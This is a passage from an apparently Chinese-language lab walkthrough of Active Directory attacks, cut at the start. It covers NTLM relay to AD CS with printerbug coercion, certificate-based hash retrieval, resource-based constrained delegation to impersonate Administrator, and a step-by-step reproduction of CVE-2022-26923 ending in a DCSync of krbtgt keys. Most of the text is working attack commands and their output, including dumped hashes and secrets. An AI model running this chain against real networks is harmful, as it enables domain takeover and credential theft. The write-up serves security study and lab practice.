[*] SMBD-Thread-6 (process_request_thread): Received connection from 10.10.4.5, attacking target http://10.10.4.2
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://10.10.4.2 as SEC/EXCHANGE$ SUCCEED
[*] SMBD-Thread-8 (process_request_thread): Received connection from 10.10.4.5, attacking target http://10.10.4.2
[-] Authenticating against http://10.10.4.2 as / FAILED
[*] All targets processed!
[*] SMBD-Thread-9 (process_request_thread): Connection from 10.10.4.5 controlled, but there are no more targets left!
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] GOT CERTIFICATE! ID 13
[*] Writing PKCS#12 certificate to ./EXCHANGE$.pfx
[*] Certificate successfully written to file

```

获得机器账户Hash

```plain
(base) ┌──(root㉿Kali)-[~]
└─# certipy auth -pfx EXCHANGE\$.pfx -dc-ip 10.10.4.2
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN DNS Host Name: 'exchange.sec.local'
[*]     Security Extension SID: 'S-1-5-21-2066713137-2133816201-3751750268-1114'
[*] Using principal: 'exchange$@sec.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'exchange.ccache'
[*] Wrote credential cache to 'exchange.ccache'
[*] Trying to retrieve NT hash for 'exchange$'
[*] Got hash for 'exchange$@sec.local': aad3b435b51404eeaad3b435b51404ee:f0289699942511189fe1493db4249c8a

(base) ┌──(root㉿Kali)-[~]
└─#
```

wmiexec

```plain
(base) ┌──(root㉿Kali)-[~]
└─# /root/.local/bin/wmiexec.py sec/exchange\$@10.10.4.5 -hashes :f0289699942511189fe1493db4249c8a
/root/.local/share/uv/tools/impacket/lib/python3.12/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.13.0.dev0+20250626.63631.6b8f6231 - Copyright Fortra, LLC and its affiliated companies

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
sec\exchange$

C:\>

```

#### 3）攻击域内普通机器
监听

```plain
(base) ┌──(root㉿Kali)-[~]
└─# /root/.local/bin/ntlmrelayx.py -t http://10.10.4.2/certsrv/certfnsh.asp -smb2support --adcs
/root/.local/share/uv/tools/impacket/lib/python3.12/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.13.0.dev0+20250626.63631.6b8f6231 - Copyright Fortra, LLC and its affiliated companies

[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Setting up RPC Server on port 135
[*] Multirelay disabled

[*] Servers started, waiting for connections

```

printbug触发win10中继

```plain
(base) ┌──(root㉿Kali)-[~/tools/krbrelayx]
└─# python3 printerbug.py sec/test2:"Az123456@"@10.10.4.21 10.10.4.10
[*] Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Attempting to trigger authentication via rprn RPC at 10.10.4.21
[*] Bind OK
[*] Got handle
RPRN SessionError: code: 0x6ab - RPC_S_INVALID_NET_ADDR - The network address is invalid.
[*] Triggered RPC backconnect, this may or may not have worked

```

```plain
[*] Servers started, waiting for connections
[*] SMBD-Thread-6 (process_request_thread): Received connection from 10.10.4.21, attacking target http://10.10.4.2
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://10.10.4.2 as SEC/WIN10-1$ SUCCEED
[*] SMBD-Thread-8 (process_request_thread): Received connection from 10.10.4.21, attacking target http://10.10.4.2
[-] Authenticating against http://10.10.4.2 as / FAILED
[*] All targets processed!
[*] SMBD-Thread-9 (process_request_thread): Connection from 10.10.4.21 controlled, but there are no more targets left!
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] GOT CERTIFICATE! ID 14
[*] Writing PKCS#12 certificate to ./WIN10-1$.pfx
[*] Certificate successfully written to file

```

pfx转换成ccache

```plain
(base) ┌──(root㉿Kali)-[~]
└─# certipy auth -pfx WIN10-1\$.pfx -dc-ip 10.10.4.2
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN DNS Host Name: 'Win10-1.sec.local'
[*]     Security Extension SID: 'S-1-5-21-2066713137-2133816201-3751750268-1113'
[*] Using principal: 'win10-1$@sec.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'win10-1.ccache'
[*] Wrote credential cache to 'win10-1.ccache'
[*] Trying to retrieve NT hash for 'win10-1$'
[*] Got hash for 'win10-1$@sec.local': aad3b435b51404eeaad3b435b51404ee:d185036c5d5593e3067aa802bfa4e154

(base) ┌──(root㉿Kali)-[~]
└─# export KRB5CCNAME=win10-1.ccache
```

配置创建的机器账户到机器Win2008的基于资源的约束性委派

```plain
(base) ┌──(root㉿Kali)-[~]
└─# /root/.local/bin/rbcd.py -delegate-from machine3$ -delegate-to 'WIN10-1$' -dc-ip 10.10.4.2 -action write sec.local/win10-1\$ -k -no-pass -debug
/root/.local/share/uv/tools/impacket/lib/python3.12/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.13.0.dev0+20250626.63631.6b8f6231 - Copyright Fortra, LLC and its affiliated companies

[+] Impacket Library Installation Path: /root/.local/share/uv/tools/impacket/lib/python3.12/site-packages/impacket
[+] Using Kerberos Cache: win10-1.ccache
[+] SPN LDAP/WIN2019-DC1@SEC.LOCAL not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for KRBTGT/SEC.LOCAL@SEC.LOCAL
[+] Using TGT from cache
[+] Trying to connect to KDC at 10.10.4.2:88
[+] Initializing domainDumper()
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] machine2$ can now impersonate users on WIN10-1$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     machine3$    (S-1-5-21-2066713137-2133816201-3751750268-1111)

```

申请ST，委派为administrator

```plain
(base) ┌──(root㉿Kali)-[~]
└─# /root/.local/bin/getST.py -spn cifs/WIN10-1.sec.local sec/machine3\$:"Az123456@" -dc-ip 10.10.4.2 -impersonate Administrator
/root/.local/share/uv/tools/impacket/lib/python3.12/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.13.0.dev0+20250626.63631.6b8f6231 - Copyright Fortra, LLC and its affiliated companies

[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_WIN10-1.sec.local@SEC.LOCAL.ccache

```

成功secretdump

```plain
(base) ┌──(root㉿Kali)-[~]
└─# KRB5CCNAME=Administrator@cifs_WIN10-1.sec.local@SEC.LOCAL.ccache /root/.local/bin/secretsdump.py  WIN10-1.sec.local -target-ip 10.10.4.21 -dc-ip 10.10.4.7 -no-pass -k
/root/.local/share/uv/tools/impacket/lib/python3.12/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.13.0.dev0+20250626.63631.6b8f6231 - Copyright Fortra, LLC and its affiliated companies

[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xe7a8ce6b4e930d9f3b73b54cdd6532ed
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:27d86657f458a28aeed03655ba6a6137:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:da3f7b5d4c919179b4556134cc56198a:::
user1:1001:aad3b435b51404eeaad3b435b51404ee:27d86657f458a28aeed03655ba6a6137:::
public_user:1002:aad3b435b51404eeaad3b435b51404ee:27d86657f458a28aeed03655ba6a6137:::
local_admin:1003:aad3b435b51404eeaad3b435b51404ee:27d86657f458a28aeed03655ba6a6137:::
[*] Dumping cached domain logon information (domain/username:hash)
SEC.LOCAL/Administrator:$DCC2$10240#Administrator#165e66f660ab7bef320b694490bfa35e: (2025-05-30 03:28:18+00:00)
SEC.LOCAL/hack:$DCC2$10240#hack#7020b2f49b4feff03ab38e5f6e3d6df8: (2025-06-29 21:46:40+00:00)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
SEC\WIN10-1$:plain_password_hex:24d13f2904fef270204cd7a927e8bb4a19980c761925dfc202d382e406e9ef546ccf7baffb2ba09010fcd9890641d1f3f9ebe7a9381df9c1ba8615c88beb12c9586b29672b1a9daa77178e7c06fdb5b62e2e1a9ae20ec5255a5521009c4b3886a1e1670c6f84e2ea72bb533363a7ca3073016460d97143d2fbd4fc9689c66a7b4a697a1d5d9ea066bb05283a73489e2c840b46fd027d148d91084d55d623187659663efdea2c6e127524617303b51b1233cfe78b1322fdb25e5e1a00b48484b657349e630abf40ddde44ea8fc542cc96530fee52fb86d1b5f5196b4a73a9cf7867d554ec82af4fb487afbd6ded58ff70
SEC\WIN10-1$:aad3b435b51404eeaad3b435b51404ee:d185036c5d5593e3067aa802bfa4e154:::
[*] DPAPI_SYSTEM
dpapi_machinekey:0x2ee76aa9bda36d0c09f2abeb6d25c920006ec1e6
dpapi_userkey:0xbdf0a638d10284d24fb69932b2639a102e08eaa2
[*] NL$KM
 0000   9A 78 48 00 E0 A7 23 AC  65 3F E9 5E 64 A3 C3 DA   .xH...#.e?.^d...
 0010   5E 16 E6 90 5E 9C 98 B0  3D 17 CC BF AF D1 41 F4   ^...^...=.....A.
 0020   1F 68 51 89 DD 83 B8 73  23 3D D7 94 7B 30 AF 7D   .hQ....s#=..{0.}
 0030   11 AB E8 66 68 0C D5 BB  96 06 BF A8 1D E4 1C 7D   ...fh..........}
NL$KM:9a784800e0a723ac653fe95e64a3c3da5e16e6905e9c98b03d17ccbfafd141f41f685189dd83b873233dd7947b30af7d11abe866680cd5bb9606bfa81de41c7d
[*] Cleaning up...
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry

```

注：思考为什么wmiexec不会成功

## 2.CVE-2022-26923 域内权限提升漏洞
### 2.1 漏洞原理
漏洞产生的原因是ADCS服务器在处理计算机模板证书是通过机器的dNSHostName属性来辨别用户的，而普通域用户有权限修改它所创建的机器账户的dNSHostName属性。

通过构造机器账户并篡改dNSHostName属性，在证书申请时AD CS将dNSHostName属性嵌入证书中，进而机器账户获得高权限的域控身份。

在使用证书进行Kerberos认证时，KCD会查询sAMAccountName属性为"dNSHostName-域名+$"的对象，此时就会查询到域控

### 2.2 漏洞复现
域：sec.local

域控：10.10.4.7

ADCS服务器：10.10.4.9

普通域用户: sec.local\test2

寻找ADCS

```plain
(base) ┌──(root㉿Kali)-[~]
└─# certipy find -dc-ip 10.10.4.7 -u test2@sec.local -p "Az123456@" -enabled
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 2 certificate authorities
[*] Found 22 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'sec-WIN2019-DC1-CA' via RRP
[*] Successfully retrieved CA configuration for 'sec-WIN2019-DC1-CA'
[*] Checking web enrollment for CA 'sec-WIN2019-DC1-CA' @ 'Win2019-DC1.sec.local'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Retrieving CA configuration for 'sec-WIN2019-ADCS1-CA-3' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'sec-WIN2019-ADCS1-CA-3'
[*] Checking web enrollment for CA 'sec-WIN2019-ADCS1-CA-3' @ 'WIN2019-ADCS1.sec.local'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Saving text output to '20250706233316_Certipy.txt'
[*] Wrote text output to '20250706233316_Certipy.txt'
[*] Saving JSON output to '20250706233316_Certipy.json'
[*] Wrote JSON output to '20250706233316_Certipy.json'

```

利用test2用户创建machine4，并设置其dnsHostname属性为WIN2016-DC2.sec.local

```plain
(base) ┌──(root㉿Kali)-[~]
└─# certipy account create -dc-ip 10.10.4.7 -u test2@sec.local -p "Az123456@" -user "machine4" -dns "WIN2016-DC2.sec.local"
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Creating new account:
    sAMAccountName                      : machine4$
    unicodePwd                          : M2ICSvL5YEIlVauM
    userAccountControl                  : 4096
    servicePrincipalName                : HOST/machine4
                                          RestrictedKrbHost/machine4
    dnsHostName                         : WIN2016-DC2.sec.local
[*] Successfully created account 'machine4$' with password 'M2ICSvL5YEIlVauM'

(base) ┌──(root㉿Kali)-[~]
└─#

```

以machine4$的身份请求Machine类型的证书

```plain
(base) ┌──(root㉿Kali)-[~]
└─# certipy -debug req -dc-ip 10.10.4.7 -u machine4\$@sec.local -p "M2ICSvL5YEIlVauM" -target 10.10.4.9 -ca sec-WIN2019-ADCS1-CA-3 -template Machine
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[+] DC host (-dc-host) not specified. Using domain as DC host
[+] Nameserver: '10.10.4.7'
[+] DC IP: '10.10.4.7'
[+] DC Host: 'SEC.LOCAL'
[+] Target IP: '10.10.4.9'
[+] Remote Name: '10.10.4.9'
[+] Domain: 'SEC.LOCAL'
[+] Username: 'MACHINE4$'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.4.9[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.4.9[\pipe\cert]
[*] Request ID is 25
[*] Successfully requested certificate
[*] Got certificate with DNS Host Name 'WIN2016-DC2.sec.local'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'win2016-dc2.pfx'
[+] Attempting to write data to 'win2016-dc2.pfx'
[+] Data written to 'win2016-dc2.pfx'
[*] Wrote certificate and private key to 'win2016-dc2.pfx'

```

用证书认证获得NTLM Hash

```plain
(base) ┌──(root㉿Kali)-[~]
└─# certipy auth -pfx win2016-dc2.pfx -dc-ip 10.10.4.7
Certipy v5.0.3 - by Oliver Lyak (ly4k)
certipy   certtool
[*] Certificate identities:
[*]     SAN DNS Host Name: 'WIN2016-DC2.sec.local'
[*] Using principal: 'win2016-dc2$@sec.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'win2016-dc2.ccache'
[*] Wrote credential cache to 'win2016-dc2.ccache'
[*] Trying to retrieve NT hash for 'win2016-dc2$'
[*] Got hash for 'win2016-dc2$@sec.local': aad3b435b51404eeaad3b435b51404ee:67e3047bf7a4c00d27283eeb9c3e8798

```

secretdump

```plain

(base) ┌──(root㉿Kali)-[~]
└─# /root/.local/bin/secretsdump.py sec/win2016-dc2\$@10.10.4.7 -hashes :67e3047bf7a4c00d27283eeb9c3e8798 -just-dc-user "sec\krbtgt"
/root/.local/share/uv/tools/impacket/lib/python3.12/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.13.0.dev0+20250626.63631.6b8f6231 - Copyright Fortra, LLC and its affiliated companies

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1258230d20deb8fa8c0ee72e014ae813:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:f17ecd5329b2b676b5737a7e40c5cd26337048e048b09663ceef99178afff9d8
krbtgt:aes128-cts-hmac-sha1-96:48387c994c399862ae5ef5a7c86f0c8e
krbtgt:des-cbc-md5:512a436789e32394
[*] Cleaning up...
```

如果打了补丁的2019会报错

```plain
(base) ┌──(root㉿Kali)-[~]
└─# certipy account create -dc-ip 10.10.4.2 -u test2@sec.local -p "Az123456@" -user "machine5" -dns "WIN2019-DC1.sec.local"
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Creating new account:
    sAMAccountName                      : machine5$
    unicodePwd                          : A8pvvkdsaRvUJpe0
    userAccountControl                  : 4096
    servicePrincipalName                : HOST/machine5
                                          RestrictedKrbHost/machine5
    dnsHostName                         : WIN2019-DC1.sec.local
[-] Received error: (constraintViolation) 0000200B: AtrErr: DSID-033E1006, #1:
        0: 0000200B: DSID-033E1006, problem 1005 (CONSTRAINT_ATT_TYPE), data 0, Att 9026b (dNSHostName)

```